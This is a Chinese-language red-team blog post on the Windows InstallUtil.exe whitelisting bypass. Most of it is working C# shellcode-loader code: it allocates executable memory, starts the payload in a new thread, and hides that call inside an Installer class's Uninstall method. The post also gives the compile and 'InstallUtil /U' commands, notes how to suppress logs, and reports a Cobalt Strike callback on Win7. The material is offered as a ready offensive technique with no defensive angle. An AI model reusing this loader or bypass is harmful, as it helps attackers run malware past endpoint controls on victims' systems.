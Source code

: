 ```yaml
---
layout:     post
title:    白名单-InstallUtil的利用
subtitle:   InstallUtil的利用
date:       2020-02-01
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 白名单
    - 红队
    - 内网渗透
---
```

# 白名单-InstallUtil的利用

## 简介
InstallUtil（安装程序工具）是一个命令行工具，你可以通过此工具执行指定程序集中的安装程序组件，从而安装和卸载服务器资源。 此工具与 System.Configuration.Install 命名空间中的类配合使用。  
需要注意的是这个工具所在的路径没有添加到系统的PATH中，所以需要给上全路径去执行。  
InstallUtil.exe路径，我测试环境是win7，win10下内存会报错不知道为什么，win7的路径是：***C:\Windows\Microsoft.NET\Framework\v4.0.30319\***。   
常用参数就4个：   
- /h 帮助  
- /LogFile=[filename] 指定在其中记录安装进度的日志文件的名称。 如果省略 /LogFile 选项，则会默认创建名为 程序名.InstallLog 的日志文件，里面包含了一些详细信息  
- /LogToConsole={true|false} 是否将日志信息输出到控制台
- /u[ninstall] 卸载指定程序集  

其他详细的可以看官方文档：[https://docs.microsoft.com/zh-cn/dotnet/framework/tools/installutil-exe-installer-tool?redirectedfrom=MSDN](https://docs.microsoft.com/zh-cn/dotnet/framework/tools/installutil-exe-installer-tool?redirectedfrom=MSDN)。  

## 测试
先写一个C#的测试代码，用来加载shellcode：  
```
using System;
using System.IO;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;


namespace RunShellCode
{
    public class shellcodeload
    {
        public static void Main()
        {
            byte[] shellcode = new byte[] { .......... }; //添加要加载的shellcode
            
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // Prepare data
            IntPtr pinfo = IntPtr.Zero;

            // Invoke the shellcode
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(
            UInt32 lpStartAddr,
            UInt32 size,
            UInt32 flAllocationType,
            UInt32 flProtect
        );

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
        );
    }
}
``` 
编译的时候用csc直接编译：  
```
csc.exe  /out:1.exe 1.cs
```
如果没有问题应该是能上线的，但是有时候执行会显示 Access is denied。  
这时候可以尝试用InstallUtil来绕过。  
修改下这个代码： 
```
using System;
using System.IO;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;


namespace RunShellCode
{

    public class ABswsd
    {
        public static void Main()
        {
            Console.WriteLine("test");
        }
    }
    [System.ComponentModel.RunInstaller(true)]
    public class wdi2nS2dwS : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary SaveState)
        {
            Console.WriteLine("Run shellcode");
            shellcodeload.MsdwsdSAsdw();
        }
    }
    public class shellcodeload
    {
        public static void MsdwsdSAsdw()
        {
            byte[] shellcode = new byte[] { .......... }; //添加要加载的shellcode
            
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // Prepare data
            IntPtr pinfo = IntPtr.Zero;

            // Invoke the shellcode
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(
            UInt32 lpStartAddr,
            UInt32 size,
            UInt32 flAllocationType,
            UInt32 flProtect
        );

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
        );
    }
}
```
同样的先编译，然后用InstallUtil安装卸载。  
```
InstallUtil.exe  /LogtoConsole=false /U 1.exe
```
可以加上/logfile=，这样不会有日志文件输出，我测试的时候为了方便排查所以加上了。   
我这里测试了加载cs的shellcode。  
win10测试失败了，内存问题。。。   
![200201_1](/img/200201_win10fail.png)  
win7下测试可以上线。  
![200201_2](/img/200201_win7.png)  

## 总结
绕来绕去其实也是个老技术，大概就是没东西写了？同文件夹下好友好几个这样用来安装注册的，后面接续写。   

## 参考
[https://micro8.github.io/Micro8-HTML/Chapter1/71-80/72_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Installutil.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E4%BA%8C%E5%AD%A3.html](https://micro8.github.io/Micro8-HTML/Chapter1/71-80/72_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Installutil.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E4%BA%8C%E5%AD%A3.html)